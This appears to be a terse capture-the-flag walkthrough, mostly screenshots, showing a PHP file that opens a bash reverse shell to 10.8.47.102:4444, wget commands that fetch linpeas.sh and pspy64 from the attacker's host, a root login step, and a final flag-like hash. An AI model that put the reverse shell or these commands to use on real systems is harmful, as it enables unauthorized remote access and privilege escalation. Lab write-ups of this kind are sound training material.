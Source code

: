 <img width="843" height="227" alt="image" src="https://github.com/user-attachments/assets/f62a4bfc-ea3a-41d1-bab7-1f05eeac955a" />


> ## create new file have revese shell on my device and send it to server

```php
<?php
    exec("/bin/bash -c 'bash -i >& /dev/tcp/10.8.47.102/4444 0>&1'");
?>

```

<img width="988" height="263" alt="image" src="https://github.com/user-attachments/assets/48cb3b3d-1c5f-44ea-8677-ec64a4ec641f" />


```
wget http://10.8.47.102:8888/linpeas.sh
wget http://10.8.47.102:8888/pspy64
```

<img width="948" height="209" alt="image" src="https://github.com/user-attachments/assets/4f50d09a-69d6-4ea4-9446-736c1ea34ebb" />

<img width="960" height="446" alt="image" src="https://github.com/user-attachments/assets/ff48e9a2-3c65-477c-a5b0-326233380c72" />


> ## try this password to root

```
su - 
```

<img width="894" height="187" alt="image" src="https://github.com/user-attachments/assets/92d3020a-f4d6-4dd0-b09c-a88ed189834e" />


<img width="765" height="84" alt="image" src="https://github.com/user-attachments/assets/bec8e900-560c-4191-9386-b213ce80dd97" />


```
b9bbcb33e11b80be759c4e844862482d
```




